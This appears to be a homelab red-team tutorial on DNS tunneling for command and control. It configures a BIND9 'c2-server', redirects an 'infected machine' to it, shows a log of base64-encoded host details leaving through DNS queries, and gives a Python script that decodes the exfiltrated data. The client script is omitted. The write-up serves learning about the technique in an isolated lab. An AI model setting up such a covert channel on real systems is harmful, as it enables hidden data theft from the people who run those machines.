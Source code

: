 ```yaml
---
title: DNS Tunneling
date: 2025-06-11
draft: false
author: Alex Jenkins
---
```

| Category      | ID        | Description       |
| ------------- | --------- | ----------------- |
| Tactic        | TA011     | Command and Control |
| Technique     | T1071     | Application Layer Protocol  |
| Sub-Technique | T1071.004 | Application Layer Protocol: DNS |
# Configuration
## Server
1. Setup Ubuntu server - I'm using 24.04.2

### Domain Name System
Follow this guide: https://documentation.ubuntu.com/server/how-to/networking/install-dns/index.html
- Install bind9, dnsutils

**Forward Lookup Zone**
First modify the /etc/bind/named.conf.local file to include your forward lookup zone file and domain. Mind looks like:
```
zone "homelab.local" {
  type master;
  file "/etc/bind/db.homelab.local";
};
```

Now copy an existing zone file as a template like so:
```
sudo cp /etc/bind/db.local /etc/bind/db.homelab.local
```

Then add some A records to the file:
```
;
; BIND data file for local loopback interface
;
$TTL    604800
@       IN      SOA     homelab.local. root.homelab.local. (
                              2         ; Serial
                         604800         ; Refresh
                          86400         ; Retry
                        2419200         ; Expire
                         604800 )       ; Negative Cache TTL
;
@       IN      NS      homelab.local.
@       IN      A       192.168.1.155      
```
!! Make sure you increment the serial number every time you make a change !!

Restart the server with:
```
sudo systemctl restart bind9
```

```
include "/etc/bind/named.conf.options";
include "/etc/bind/named.conf.local";
include "/etc/bind/named.conf.default-zones";

logging {
        channel query.log {
                file "/var/log/named/query.log";
                severity debug 3;
        };
        category queries { query.log; };
};
```

```
sudo mkdir /var/log/named
sudo chown bind:bind /var/log/named
sudo systemctl restart bind9
sudo tail -f /var/log/named/query.log
```

Now test it on another machine with nslookup homelab.local and you should see some acitivity in the log file:
```
root@c2-server:/etc/bind# tail -f /var/log/named/query.log
client @0x77042c1ca578 192.168.1.182#36083 (homelab.local): query: homelab.local IN A + (192.168.1.155)
client @0x77042c1ca578 192.168.1.182#35547 (homelab.local): query: homelab.local IN AAAA + (192.168.1.155)
```

## Infected Machine
On infected machine modify /etc/resolv.conf to include:
```
nameserver 192.168.1.155 # Change this to the IP of your DNS server
```
This simulates real-world DNS connection. In doing this you can keep it isolated to your private network, allowing the infected machine to treat your server as its own DNS - enabling IP resolution. In real-world scenarios this wouldn't be required because the domain would be recognised by a public DNS provider.

# Red Team
(python script)

When running the script you should get output like below:
```
client @0x77042c1ca578 192.168.1.182#55499 (YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local): query: YWxleAo=.Ni4xNC4xMC1hcmNoMS0xCg==.homelab.local IN TXT +E(0) (192.168.1.155)
```

Now that we've confirmed that works it's time to make a python script on the server to strip out the query and decode it.
``` python
import re
import time
import base64
from datetime import datetime

dns_log_file = "/var/log/named/query.log"

with open(dns_log_file, "r") as file:
    file.seek(0,2) # move to end of file
    while True:
        message = []
        line = file.readline()
        if line:
            line = line.strip()
            match = re.search(r'query: ([^\s]+)', line)
            if match:
                query = match.group(1)
                split_query = query.split('.')
                for section in split_query:
                    if section == "homelab" or section == "local":
                        pass
                    else:
                        decoded_section = base64.b64decode(section).decode("utf-8").strip()
                        message.append(decoded_section)
        if message:
            print(" ".join(message))
        time.sleep(1)
```

